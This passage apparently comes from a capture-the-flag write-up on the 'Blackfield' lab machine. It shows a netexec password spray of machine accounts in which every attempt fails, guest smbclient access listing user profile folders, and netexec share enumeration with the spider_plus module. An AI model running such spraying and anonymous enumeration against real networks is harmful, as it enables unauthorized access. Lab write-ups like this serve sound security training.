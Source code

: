 ```
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc08$:pc08$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc09$:pc09$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc10$:pc10$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc11$:pc11$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc12$:pc12$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc13$:pc13$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\srv-web$:srv-web$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\srv-file$:srv-file$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\srv-exchange$:srv-exchange$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\srv-intranet$:srv-intranet$ STATUS_LOGON_FAILURE
```
❌

`smbclient -U 'guest' --password='' '//10.10.10.192/profiles$'`:
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jun  3 18:47:12 2020
  ..                                  D        0  Wed Jun  3 18:47:12 2020
  AAlleni                             D        0  Wed Jun  3 18:47:11 2020
  ABarteski                           D        0  Wed Jun  3 18:47:11 2020
  ABekesz                             D        0  Wed Jun  3 18:47:11 2020
  ABenzies                            D        0  Wed Jun  3 18:47:11 2020

[...]

  ZScozzari                           D        0  Wed Jun  3 18:47:12 2020
  ZTimofeeff                          D        0  Wed Jun  3 18:47:12 2020
  ZWausik                             D        0  Wed Jun  3 18:47:12 2020

                5102079 blocks of size 4096. 1690401 blocks available
```

`netexec smb 10.10.10.192 -u 'guest' -p '' --shares -M spider_plus`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\guest: 
SPIDER_PLUS 10.10.10.192    445    DC01             [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.10.192    445    DC01             [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.10.192    445    DC01             [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.10.192    445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.10.192    445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.10.192    445    DC01             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.10.192    445    DC01             [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
```